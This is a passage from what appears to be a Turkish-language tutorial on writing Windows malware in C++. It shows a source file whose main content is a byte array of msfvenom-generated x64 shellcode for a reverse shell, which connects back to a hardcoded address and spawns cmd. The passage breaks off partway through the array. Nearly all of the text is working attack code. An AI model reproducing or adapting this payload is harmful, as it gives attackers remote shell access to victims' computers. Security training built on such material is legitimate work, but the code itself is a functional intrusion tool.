 ![msfvenom](./images/6/2021-09-18_20-28.png){width="75%"}

Zararlı yazılımımızın basit bir C++ koduyla başlayalım:
```cpp
/*
cpp implementation malware example with msfvenom payload
*/
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

// our payload: reverse shell (msfvenom)
unsigned char my_payload[] =
"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52"
"\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48"
"\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9"
"\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41"
"\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48"
"\x01\xd0\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01"
"\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48"
"\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0"
"\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c"
"\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0"
"\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04"
"\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59"
"\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48"
"\x8b\x12\xe9\x57\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33"
"\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00"
"\x49\x89\xe5\x49\xbc\x02\x00\x11\x5c\x0a\x09\x01\x06\x41\x54"
"\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x4c"
"\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b\x00\xff"
"\xd5\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48\xff\xc0\x48\x89\xc2"
"\x48\xff\xc0\x48\x89\xc1\x41\xba\xea\x0f\xdf\xe0\xff\xd5\x48"
"\x89\xc7\x6a\x10\x41\x58\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99"
"\xa5\x74\x61\xff\xd5\x48\x81\xc4\x40\x02\x00\x00\x49\xb8\x63"
"\x6d\x64\x00\x00\x00\x00\x00\x41\x50\x41\x50\x48\x89\xe2\x57"
"\x57\x57\x4d\x31\xc0\x6a\x0d\x59\x41\x50\xe2\xfc\x66\xc7\x44"
"\x24\x54\x01\x01\x48\x8d\x44\x24\x18\xc6\x00\x68\x48\x89\xe6"
"\x56\x50\x41\x50\x41\x50\x41\x50\x49\xff\xc0\x41\x50\x49\xff"
"\xc8\x4d\x89\xc1\x4c\x89\xc1\x41\xba\x79\xcc\x3f\x86\xff\xd5"
"\x48\x31\xd2\x48\xff\xca\x8b\x0e\x41\xba\x08\x87\x1d\x60\xff"
"\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff\xd5\x48"
"\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13"
```